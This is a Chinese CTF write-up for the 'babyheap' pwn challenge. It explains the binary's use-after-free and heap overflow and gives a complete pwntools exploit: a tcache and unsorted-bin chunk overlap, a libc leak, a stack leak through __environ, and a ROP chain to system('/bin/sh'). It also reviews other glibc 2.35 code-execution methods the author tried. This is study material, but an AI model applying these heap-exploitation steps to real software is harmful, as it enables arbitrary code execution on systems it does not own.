


# babyheap

一个babyheap我做了5个多小时……而且这题确实挺baby，所有知识点都是我见过的。那为什么还是做了这么久？因为我习惯纸上谈兵了，所有知识点都是在脑子里过一遍，觉得理解了就跑了，根本没实验过。更离谱的是，这题是我学习pwn以来独立做的第二道heap题。没错，我学pwn一年多了，只独立做了两道heap题，剩下全是看wp看的。我也不知道我是咋看下去那些wp的……

这题的关键点如下：
- add函数可以malloc大小为unsorted bin size的chunk，但不能超过200大小，而且总共只能调用这个函数15次。每次调用add函数，程序会分配两个chunk，第一个chunk（metadata）固定大小为0x18，第二个chunk大小由用户决定，用来装用户指定的data。第一个chunk的结构为：`size | 1(used_bit) | 指向第二个chunk的指针`，每个field 8个字节。程序会将第一个chunk的地址存入全局数组chunks
- free函数处有UAF。free掉两个chunk后会清空metadata的used_bit和指针，但不会清空chunks。要求metadata的size，used_bit和指针均不为0
- modify可用来修改chunk2，大小固定为40。有free里一样的检查
- view打印chunk2的内容，长度为metadata里记录的size。同样有free里一样的检查

很明显，modify处有堆溢出；free处有UAF。直接上exp
```py
from pwn import *
context.arch="amd64"
libc=ELF("./libc.so.6")
p=process("./chall")
def add(size,content):
    p.sendlineafter(">> ","1")
    p.sendlineafter(": ",str(size))
    p.sendlineafter(": ",content)
def free(index):
    p.sendlineafter(">> ","2")
    p.sendlineafter(": ",str(index))
def modify(index,content):
    p.sendlineafter(">> ","3")
    p.sendlineafter(": ",str(index))
    p.sendlineafter(": ",content)
def view(index):
    p.sendlineafter(">> ","4")
    p.sendlineafter(": ",str(index))
def write(addr,content):
    assert len(content)<=40
    modify(1,p64(8)+p64(1)+p64(addr))
    modify(0,content)
def read(addr,size):
    modify(1,p64(size)+p64(1)+p64(addr))
    view(0)
#给后面的任意地址读写做准备
add(32,"aaaa") #申请的大小不和metadata的大小一致就行
add(32,"bbbb")
free(0)
free(1) #两个chunk的metadata均入tcache
add(8,"cccc") #现在chunk2为第一个chunk的metadata。modify这个chunk等于修改第一个chunk的metadata。修改metadata里的size和指针就能实现任意地址读写
for i in range(7): #Fill tcache
    add(199,"aaaa")
add(8,"bbbb") #The chunk used to overflow to next chunk's size
add(8,"victim") #The chunk get overflowed
add(199,"libc") #To unsorted bin
add(8,"bbbb") #Prevent top chunk consolidation
for i in range(7):
    free(i+3)
free(9+3) #这个chunk进了unsorted bin，包含libc地址
modify(7+3,b"b"*8+p64(0)*2+p64(0xe1)) #overwrite next chunk's size。直接把那个包含libc地址的chunk包住了
free(8+3) #overlap chunk, contains libc address
add(12*8+8,"")
view(11+3)
libc.address=u64(p.recv(6).ljust(8,b'\x00'))-2206986
read(libc.sym["__environ"],8)
ret=u64(p.recv(8))-288
write(ret,p64(next(libc.search(asm('ret'), executable=True)))+p64(next(libc.search(asm('pop rdi; ret'), executable=True)))+p64(libc.search(b'/bin/sh').__next__())+p64(libc.sym["system"]))
p.sendlineafter(">> ",'5')
p.interactive()
```
之前我一直以为overlap chunk很困难，要和off by null一样考虑很多条件。但是看了[how2heap](https://github.com/shellphish/how2heap/blob/master/glibc_2.35/overlapping_chunks.c)发现，只要覆盖chunk的size为任意一个合理的size就行了，甚至不需要完全把物理相邻的下一个chunk包住。这是modify之前的内存布局：



`0x5879b462b9e0`是我们即将modify的chunk的metadata，`0x5879b462b9f0`是我们即将modify的chunk。可以看到我们即将把位于`0x5879b462ba08`的0x21修改成0xe1，对应着metadata chunk `0x5879b462ba10` 的size。来看看free后是什么情况



发现`0x5879b462ba10`确实进了大小为0xe0的tcache。但是看看底下那个unsorted bin里的chunk `0x5879b462ba60`，很明显有部分和`0x5879b462ba10`重复了。现在理论上，如果我们申请一个0xe0大小的chunk，写data时就能一直覆盖到那个libc地址，进而用view泄漏libc地址

我接下来申请的chunk大小为104，和0xe0根本不沾边，为啥还能得到libc地址？这里只需要申请一个不在已有tcache里并小于unsorted bin的大小就行了，因为这样libc会从unsorted bin切出一块，直接包含libc。又因为程序没有清空chunk，所以直接就拿到了libc地址。这个chunk overlap根本就没必要……我本来想着用chunk overlap泄漏地址并覆盖metadata chunk，结果发现有更简单的方法，就是脚本开头的那几步

后面拿RCE也卡了我很久。我写前半部分脚本和后半部分的时间隔了大半天，忘了有view函数……于是努力寻找一个只需要libc地址的RCE方法。翻了大佬的[笔记](https://github.com/nobodyisnobody/docs/tree/main/code.execution.on.last.libc)，似乎一个也用不了。以下是我尝试各个方法的记录

1. 我用`got -p libc`查看了libc里的可写got表，确实找到了puts在libc里对应的got表。找法很简单，在puts上下个断点，跟进去，会发现它内部调用了一个名为`*ABS*+0xa86a0@plt`的函数（不同libc版本不一样）。记住`0xa86a0`这串数字，就能在got表里找到其对应的got项了。但不幸的是，4个one_gadget一个也不能用。也看了里面提到的串联两个got表调整的做法。这个方法主要利用了`__GI___printf_fp_l+5607`处的gadget(可以用`x/4i __GI___printf_fp_l+5607`查看这个gadget。在r14和`[rbp-0x108]`处为0的情况，这个gadget能将rsi和rdx清空，就满足one gadget的调用条件了。gadget的末尾会跳转到`*ABS*+0xa97d0@plt`，或者说memcpy。所以将memcpy的got改为one_gadget，再将别的什么函数的got改为`__GI___printf_fp_l+5607`即可)。但问题在于，如果我想用这个方法的话，我必须同时将两个函数的got改为相应的值，因为其他libc函数内部也会调用memcpy。或者我在程序内找个别的函数，我可以控制它何时调用。这样先改这个函数的got，再改memcpy的got即可。然而我并没有找到这样的函数，程序里用到的所有函数基本都在两个modify之间被调用过。可能是我找得不够详细吧，总之失败
2. 找不到link_map的地址。而且好像是2.38才能用这个方法，我在2.35的[源码](https://elixir.bootlin.com/glibc/glibc-2.35/A/ident/_dl_call_fini)里没找到`_dl_call_fini`这个函数，但是2.38[源码](https://elixir.bootlin.com/glibc/glibc-2.38/A/ident/_dl_call_fini)里有
3. 一次只能写40个字节，不够完成利用stdout的覆盖操作。而且下面接着就调用IO函数了，也不能分成多部分覆盖
4. 程序里用了printf，但没用conversion specifier
5. 忘了有view函数，遂无法得知`tls-storage`的地址
6. 同上，不知道tls_base。而且发现tls base和libc基地址的偏移不是固定的

寄……了吗？本来是寄了的，但是我想起来有view函数了。但是咋泄漏tls的地址？我压根就没想，因为我记得libc里有个environ，可以泄漏栈地址。直接返璞归真，写rop去了。另外我发现environ里泄漏的那个栈地址和栈基地址的偏移不是固定的，但是和main函数返回地址的偏移是固定的

我每次纸上谈兵时都有侥幸：我都理解每个知识点和步骤了，到时候自己写肯定也写得出来。嗯……确实也没错，真的写出来了，但是这跌跌撞撞的步骤和喜剧般的用时是怎么回事？